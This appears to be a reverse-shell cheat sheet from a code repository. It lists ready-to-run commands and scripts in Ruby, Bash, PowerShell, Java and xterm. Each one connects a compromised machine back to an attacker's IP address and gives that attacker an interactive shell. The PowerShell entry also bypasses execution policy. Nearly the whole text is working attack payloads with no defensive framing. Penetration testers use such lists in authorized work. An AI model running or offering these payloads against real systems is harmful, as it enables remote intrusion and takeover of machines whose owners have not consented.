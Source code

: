 ### Ruby Reverse Shell

```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Bash Reverse Shell

```shell
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

### Powershell Reverse Shell

Create a simple powershell script called `reverse.ps1`:

```powershell
function reverse_powershell {
    $client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
}
```

```powershell
powershell -ExecutionPolicy bypass -command "Import-Module reverse.ps1; reverse_powershell"
```

### Java Reverse Shell

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### Xterm Reverse Shell

One of the simplest forms of reverse shell is an xterm session. The following command should be run on the server. It will try to connect back to you (`10.0.0.1`) on TCP port `6001`.

```shell
xterm -display 10.0.0.1:1
```

To catch the incoming xterm, start an X-Server (`:1` – which listens on TCP port `6001`). One way to do this is with Xnest (to be run on your system):

```shell
Xnest :1

```
